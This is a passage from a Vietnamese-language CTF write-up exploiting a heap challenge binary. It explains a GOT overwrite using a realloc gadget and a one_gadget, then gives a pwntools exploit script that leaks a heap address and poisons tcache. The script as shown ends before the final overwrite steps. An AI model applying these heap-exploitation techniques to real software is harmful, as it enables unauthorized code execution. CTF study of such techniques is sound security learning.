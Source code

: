 Sau 3347 lần đi đọc opcode trên libc mình thấy tại realloc+1153 có opcode làm cho thanh $rdx bằng 0 và gọi thêm một hàm plt ra.
![](https://i.imgur.com/IZ6nyRF.png)

Vì vậy cuối cùng mình quyết định ghi đè `got mà puts gọi tới` là `realloc+1153` còn `got mà realloc gọi` sẽ là one_gadget

```python
Edit(3,0x78,p16(0)*6+p16(7))
Edit(4,0x68,p64(0)*6+p64(realloc_abs_got))
Edit(7,0x78,p64(libc.address+0xebcf8))

Edit(4,0x68,p64(0)*6+p64(puts_abs_got-8))
Edit(8,0x78,p64(0)+p64(libc.sym.realloc+1153))
```

Check lại các tham số đã thoả mãn one_gadget.
![](https://i.imgur.com/2zLIhYT.png)

Final script:

```python 
from pwn import *
context.binary=e=ELF("./chall")
libc=e.libc
gs="""
b *__run_exit_handlers+211
b *calloc+678
b __GI___libc_reallocarray
b *realloc+1153
"""
if args.DEBUG:
    context.log_level='debug'
if args.LOCAL:
    p=e.process()
    if args.GDB:
        gdb.attach(p,gdbscript=gs)
        pause()
elif args.REMOTE:
    p=remote(args.HOST,int(args.PORT))
def Edit(idx: int,size: int,memo: bytes,sendline=True):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"Index:",f"{idx}".encode())
    p.sendlineafter(b"Size:",f"{size}".encode())
    if size>1:
        p.sendafter(b"Memo:",memo)
    sleep(0.5)
def List():
    p.sendlineafter(b">",b"2")
Edit(0,0x78,b"A"*8)
Edit(0,0,0)
Edit(1,0x78,b"A"*8)
Edit(0,0,0)
List()
p.recvuntil(b"[1] ")
first_chunk=int(p.recv(5)[::-1].hex(),16)
first_chunk = (first_chunk << 12) +0x290
log.info(f"{hex(first_chunk)}")
tcache_perthread_struct=first_chunk-0x290
Edit(1,0x78,p64(0)*2)
Edit(0,0,0)
Edit(1,0x78,p64(((first_chunk+0x10) >> 12 ) ^ (tcache_perthread_struct+0x10))+p64(0))
Edit(2,0x78,b"A"*8)
Edit(3,0x78,p16(7)*58)
Edit(3,0x78,p16(0)*6+p16(7))
```